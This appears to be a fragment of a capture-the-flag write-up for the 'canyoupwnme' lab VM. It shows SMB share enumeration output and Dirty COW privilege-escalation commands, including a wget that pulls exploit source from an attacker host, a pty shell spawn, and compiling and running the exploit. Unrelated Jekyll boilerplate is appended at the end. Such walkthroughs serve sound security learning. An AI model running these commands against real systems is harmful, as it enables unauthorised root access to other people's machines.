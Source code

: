 ```
Host script results:                                                      
| smb-enum-shares:                                                   
|   account_used: guest                                                   
|   IPC$:                                                                 
|     Type: STYPE_IPC_HIDDEN                                              
|     Comment: IPC Service (canyoupwnme server (Samba, Ubuntu))           
|     Users: 1                                                            
|     Max Users: <unlimited>                                              
|     Path: C:\tmp                                                        
|     Anonymous access: READ/WRITE                                        
|     Current user access: READ/WRITE


``` 

## Post Exploitation

```
uname -a
Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
```
From this kernel version we can attempt a kernel exploit.
It may crash the system but we'll still try it.
We'll attempt to use the dirtycow exploit.
####Add link to dirtycow
```
wget http://192.168.175.132:1234/cowroot.c -O /tmp/cowroot.c
Edit it for either 32bit or 64bit.


python -c "import pty; pty.spawn('/bin/bash');"
gcc -pthread cowroot.c -o cowroot && chmod 744 cowroot && ./cowroot asdf
Once you get a shell enter the following command. chap chap
echo 0 > /proc/sys/vm/dirty_writeback_centisecs

```
Other way is to use the suid bit set.

Check out the [Jekyll docs][jekyll] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll’s dedicated Help repository][jekyll-help].

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
